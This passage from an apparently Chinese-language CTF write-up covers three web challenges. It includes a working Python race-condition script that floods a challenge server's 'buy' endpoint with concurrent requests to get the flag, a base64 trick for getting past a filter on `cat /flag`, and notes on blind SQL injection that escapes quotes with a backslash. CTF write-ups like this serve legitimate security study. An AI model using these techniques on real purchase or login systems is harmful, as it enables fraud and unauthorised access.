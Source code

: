 ![](https://img-blog.csdnimg.cn/2021021413511126.png)
`cat /flag`发现被过滤了，那么使用base64编码一下即可
![](https://img-blog.csdnimg.cn/20210214135222751.png)
base64解码得到flag

## 没做出来的题目复现
### Liki的生日礼物
看wp发现考点为条件竞争，使用python多线程即可
```python
import threading
import requests
import json
import time

host = "https://birthday.liki.link/API/"

user = {
"name": "12a",
"password": "12a"
}

s = requests.session()

s.post(url="{}?m=login".format(host), data=user)

def post():
    data = {
    "amount": "1"
    }
    url = "{}?m=buy".format(host)
    try:
        s.post(url=url, data=data)
    except:
        print("Failed")
    return

while True:
    info = json.loads(s.get("{}?m=getinfo".format(host)).text)
    money = info['data']['money']
    num = info['data']['num']
    print(money)
    print(num)

    if num >= 52:
        print(s.get("{}?m=getflag".format(host)).text)
        break

    for i in range(21):
        t = threading.Thread(target=post)
        t.start()

    time.sleep(5)
```
![](https://img-blog.csdnimg.cn/20210223131318721.png)
### Liki-Jail
发现要是被过滤就会显示`Invalid username`
![](https://img-blog.csdnimg.cn/20210223124847442.png)
发现过滤了`' " = union and & | (空格) `
测试发现是sql盲注，由于过滤了`'`，使用`\`转义即可